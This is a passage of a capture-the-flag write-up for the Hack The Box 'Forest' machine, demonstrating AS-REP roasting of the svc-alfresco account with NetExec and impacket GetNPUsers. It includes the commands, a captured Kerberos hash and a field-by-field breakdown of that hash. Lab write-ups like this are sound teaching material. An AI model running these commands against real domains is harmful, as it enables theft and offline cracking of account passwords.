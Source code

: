 **Video Credits**: *[ACEResponder](https://twitter.com/ACEResponder/status/1698089715600085262)*


If an account is configured to not require Kerberos pre-authentication ("`Do not require Kerberos preauthentication`" option in the user account properties), it becomes vulnerable to `AS-REP roasting`. 

### 1. NetExec Method

Having that in mind, we can request authentication data for `svc-alfresco` without supplying any credentials using [NetExec's](https://www.netexec.wiki/ldap-protocol/asreproast) ldap asreproast feature:

```bash
➜  nxc ldap 10.10.10.161 -u svc-alfresco -p '' -d htb.local --kdcHost FOREST.htb.local --asreproast TGT.txt   
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:49b0a9c32cff239b7a9800c26e5bf3c6$f5f8010937c39d33d846645b5e45ccdbf67cc1914d025d7ee7aa42c08d0d9fe8193ed37dff07a337feb52fe2123e014959bc12113ae875a111ee88b0703275cd1648c24f876c90ce9b0d3563864d472446c2a85bdeefa689ebaa51dd751e4216cf307ba2cba0bd97a8ba8ffd390fc0954f57d8ee72a87f0076f2ee7e85099d3ccc2ce58ed80a7c61fe1c51502c4b02ed60b9ad335f0322c7c29e5799dd9b853e52dd5ccd4a2ead081d0a9c786655cded312cb7968020d99d7e781db3a30ce015f1dfa4043df7610326d5e8f504ab36227473dc98a404b4aa15846db32c553c11a1d6e523b47d
```

From the snipete above, you can see that the KDC returns an encrypted part of the AS-REP that contains the session key for the TGT. You can then attempt to crack this offline using `hashcat`.

If you care to learn more about the structure of the hash, here's a quick breakdown:

- `$krb5asrep$`: _This indicates the type of hash, specifically a hash from a Kerberos 5 AS-REP message_.
- `23`: _This is the encryption type used in the Kerberos ticket. The number **23** typically represents **RC4-HMAC** encryption._
- `svc-alfresco@HTB.LOCAL`: _This is the principal name, which in Kerberos terms is the identifier of the service account. In this case, it is a service account named svc-alfresco in the HTB.LOCAL domain._
- `49b0a9c32cff239b7a9800c26e5bf3c6`: _This is the client's nonce/salt used in the encryption process._
- The long string following the first colon: This is the encrypted part of the Kerberos response. It is encrypted using the key derived from the password of the account svc-alfresco@HTB.LOCAL.


### 2. GetNPUsers Method

> [GetNPUsers](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) *attempts to request Ticket Granting Service (TGS) tickets for users that have the Kerberos pre-authentication disabled.*

Simply run the following command aganist the list of identified users:

```bash
impacket-GetNPUsers htb.local/ -request -usersfile users.txt -format hashcat -dc-ip 10.10.10.161
```

eg:

